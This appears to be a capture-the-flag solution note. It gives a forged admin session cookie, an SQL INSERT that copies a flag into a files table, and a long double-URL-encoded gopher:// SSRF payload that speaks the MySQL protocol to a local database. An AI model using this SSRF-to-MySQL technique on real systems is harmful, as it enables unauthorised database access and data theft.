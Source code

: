 admin cookie: eyJmaWxlcyI6W10sInVzZXJuYW1lIjoiYWRtaW4ifQ%3D%3D.JDJ5JDEwJDdvOU9CS2FTa3FDcFAzelFKZnhrUGVQRDNPLzVFTWRvdmhGVHhPMXNGUGVpcFkwOFBMc0RX


db_user: user_XO5HH
bname: db_l1khw

INSERT INTO db_l1khw.files(file_name, checksum, username) SELECT flag,"1","admin" FROM db_l1khw.definitely_not_a_flag;


gopher: gopher:///127.0.0.1:3306/_%25%61%39%25%30%30%25%30%30%25%30%31%25%38%35%25%61%36%25%66%66%25%30%31%25%30%30%25%30%30%25%30%30%25%30%31%25%32%31%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%37%35%25%37%33%25%36%35%25%37%32%25%35%66%25%35%38%25%34%66%25%33%35%25%34%38%25%34%38%25%30%30%25%30%30%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%35%66%25%36%65%25%36%31%25%37%34%25%36%39%25%37%36%25%36%35%25%35%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%30%30%25%36%36%25%30%33%25%35%66%25%36%66%25%37%33%25%30%35%25%34%63%25%36%39%25%36%65%25%37%35%25%37%38%25%30%63%25%35%66%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%30%38%25%36%63%25%36%39%25%36%32%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%30%34%25%35%66%25%37%30%25%36%39%25%36%34%25%30%35%25%33%32%25%33%37%25%33%32%25%33%35%25%33%35%25%30%66%25%35%66%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%35%66%25%37%36%25%36%35%25%37%32%25%37%33%25%36%39%25%36%66%25%36%65%25%30%36%25%33%35%25%32%65%25%33%37%25%32%65%25%33%32%25%33%32%25%30%39%25%35%66%25%37%30%25%36%63%25%36%31%25%37%34%25%36%36%25%36%66%25%37%32%25%36%64%25%30%36%25%37%38%25%33%38%25%33%36%25%35%66%25%33%36%25%33%34%25%30%63%25%37%30%25%37%32%25%36%66%25%36%37%25%37%32%25%36%31%25%36%64%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%30%35%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%37%37%25%30%30%25%30%30%25%30%30%25%30%33%25%34%39%25%34%65%25%35%33%25%34%35%25%35%32%25%35%34%25%32%30%25%34%39%25%34%65%25%35%34%25%34%66%25%32%30%25%36%34%25%36%32%25%35%66%25%36%63%25%33%31%25%36%62%25%36%38%25%37%37%25%32%65%25%36%36%25%36%39%25%36%63%25%36%35%25%37%33%25%32%38%25%36%36%25%36%39%25%36%63%25%36%35%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%32%63%25%32%30%25%36%33%25%36%38%25%36%35%25%36%33%25%36%62%25%37%33%25%37%35%25%36%64%25%32%63%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%32%39%25%32%30%25%35%33%25%34%35%25%34%63%25%34%35%25%34%33%25%35%34%25%32%30%25%36%36%25%36%63%25%36%31%25%36%37%25%32%63%25%32%32%25%33%31%25%32%32%25%32%63%25%32%32%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%32%25%32%30%25%34%36%25%35%32%25%34%66%25%34%64%25%32%30%25%36%34%25%36%32%25%35%66%25%36%63%25%33%31%25%36%62%25%36%38%25%37%37%25%32%65%25%36%34%25%36%35%25%36%36%25%36%39%25%36%65%25%36%39%25%37%34%25%36%35%25%36%63%25%37%39%25%35%66%25%36%65%25%36%66%25%37%34%25%35%66%25%36%31%25%35%66%25%36%36%25%36%63%25%36%31%25%36%37%25%33%62%25%30%31%25%30%30%25%30%30%25%30%30%25%30%31
